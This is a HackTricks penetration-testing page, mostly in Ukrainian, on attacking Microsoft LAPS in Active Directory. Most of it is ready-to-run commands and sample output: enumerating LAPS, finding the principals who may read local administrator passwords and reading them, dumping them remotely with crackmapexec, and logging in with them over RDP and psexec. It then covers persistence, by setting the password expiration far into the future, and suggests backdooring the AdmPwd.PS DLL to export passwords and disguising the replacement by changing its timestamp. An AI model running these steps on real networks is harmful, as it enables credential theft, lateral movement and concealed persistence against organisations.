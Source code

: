 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

Local Administrator Password Solution (LAPS) - це інструмент, що використовується для управління системою, де **паролі адміністратора**, які є **унікальними, випадковими та часто змінюються**, застосовуються до комп'ютерів, приєднаних до домену. Ці паролі зберігаються безпечно в Active Directory і доступні лише користувачам, яким надано дозвіл через списки контролю доступу (ACL). Безпека передачі паролів від клієнта до сервера забезпечується за допомогою **Kerberos версії 5** та **Стандарту розширеного шифрування (AES)**.

У комп'ютерних об'єктах домену реалізація LAPS призводить до додавання двох нових атрибутів: **`ms-mcs-AdmPwd`** та **`ms-mcs-AdmPwdExpirationTime`**. Ці атрибути зберігають **пароль адміністратора у відкритому вигляді** та **час його закінчення терміну дії** відповідно.

### Check if activated
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS Password Access

Ви можете **завантажити сирий LAPS політику** з `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol`, а потім використати **`Parse-PolFile`** з пакету [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser), щоб перетворити цей файл у формат, зрозумілий людині.

Більш того, **рідні LAPS PowerShell cmdlets** можуть бути використані, якщо вони встановлені на машині, до якої ми маємо доступ:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** також можна використовувати, щоб дізнатися **хто може читати пароль і прочитати його**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) полегшує перерахунок LAPS за допомогою кількох функцій.\
Одна з них - це парсинг **`ExtendedRights`** для **всіх комп'ютерів з увімкненим LAPS.** Це покаже **групи**, які спеціально **делеговані для читання паролів LAPS**, які часто є користувачами в захищених групах.\
**Обліковий запис**, який **долучив комп'ютер** до домену, отримує `All Extended Rights` над цим хостом, і це право надає **обліковому запису** можливість **читати паролі**. Перерахунок може показати обліковий запис користувача, який може читати пароль LAPS на хості. Це може допомогти нам **націлити конкретних користувачів AD**, які можуть читати паролі LAPS.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Витягування паролів LAPS за допомогою Crackmapexec**
Якщо немає доступу до PowerShell, ви можете зловживати цим привілеєм віддалено через LDAP, використовуючи
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Це виведе всі паролі, які користувач може прочитати, що дозволить вам отримати кращу позицію з іншим користувачем.

## ** Використання пароля LAPS **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistence**

### **Дата закінчення терміну дії**

Якщо ви адміністратор, можна **отримати паролі** та **запобігти** оновленню пароля машини, **встановивши дату закінчення терміну дії в майбутнє**.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
Пароль все ще буде скинуто, якщо **адміністратор** використовує командлет **`Reset-AdmPwdPassword`**; або якщо в LAPS GPO увімкнено **Не дозволяти термін закінчення пароля, що перевищує вимоги політики**.
{% endhint %}

### Задня дверцята

Оригінальний вихідний код для LAPS можна знайти [тут](https://github.com/GreyCorbel/admpwd), тому можливо вставити задню дверцята в код (всередині методу `Get-AdmPwdPassword` в `Main/AdmPwd.PS/Main.cs`, наприклад), яка якимось чином **експортує нові паролі або зберігає їх десь**.

Потім просто скомпілюйте новий `AdmPwd.PS.dll` і завантажте його на машину в `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (і змініть час модифікації).

## Посилання
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
